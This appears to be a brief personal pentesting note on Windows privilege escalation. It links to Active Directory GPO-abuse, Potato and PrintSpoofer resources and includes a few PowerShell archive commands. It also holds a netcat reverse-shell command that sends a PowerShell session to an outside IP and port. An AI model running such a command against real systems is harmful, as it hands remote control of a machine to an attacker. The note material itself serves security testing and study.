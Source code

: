 # privileges
[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#abuse-gpo-with-sharpgpoabuse](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#abuse-gpo-with-sharpgpoabuse)

`Start-Process -FilePath "C:\enterprise-share\nc64.exe" -ArgumentList "-nv 10.17.17.11 6666 -e powershell.exe"`

for compressing files or folders from windows terminal

```text-plain
Compress-Archive -Path C:\Users\winbu\Music\Benny Goodman Swings Again\*.mp3 -DestinationPath C:\Users\winbu\Music\favorite music.zip
```

```text-plain
Expand-Archive -LiteralPath sharp.zip -DestinationPath gposharp
```

`whoami /priv`

[https://jlajara.gitlab.io/others/2020/11/22/Potatoes\_Windows\_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html) 

For SeImPersonate: 

[https://github.com/itm4n/PrintSpoofer/releases](https://github.com/itm4n/PrintSpoofer/releases)  binaries

![](privileges/printspoofer.png)